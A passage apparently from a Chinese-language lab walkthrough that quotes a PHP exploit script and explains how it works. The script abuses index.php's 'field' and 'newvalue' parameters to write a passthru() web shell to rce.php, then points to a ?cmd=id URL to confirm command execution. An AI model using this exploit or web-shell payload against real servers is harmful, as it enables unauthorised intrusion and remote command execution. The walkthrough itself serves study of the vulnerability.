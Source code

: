 ```php

$url     =  $options['u'];
$shell = "{$url}/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E";

$headers = array('User-Agent: Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)',
'Content-Type: text/plain');

echo "        [+] Submitting request to: {$options['u']}\n";

$handle = curl_init();

curl_setopt($handle, CURLOPT_URL, $url);
curl_setopt($handle, CURLOPT_HTTPHEADER, $headers);
curl_setopt($handle, CURLOPT_RETURNTRANSFER, true);

$source = curl_exec($handle);
curl_close($handle);

if(!strpos($source, 'Undefined variable: HTTP_RAW_POST_DATA') && @fopen($shell, 'r'))
{
echo "        [+] Exploit completed successfully!\n";
echo "        ______________________________________________\n\n        {$url}/data/rce.php?cmd=id\n";
}
else
{
die("        [+] Exploit was unsuccessful.\n");
}

?>

################################################################################################################
# Greetz      : ZeQ3uL, JabAv0C, p3lo, Sh0ck, BAD $ectors, Snapter, Conan, Win7dos, Gdiupo, GnuKDE, JK, Retool2
################################################################################################################ 
```

注意到

```php
/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
==> /index.php?field=rce.php&newvalue=<?php passthru($_GET[cmd]);?>
```

通过`field`和`newvalue`参数创建文件，并写入命令执行代码：

![image-20240129204256359](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217187.png)

貌似执行成功了，尝试一下看看能不能执行命令：

![image-20240129204357760](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401292217188.png)
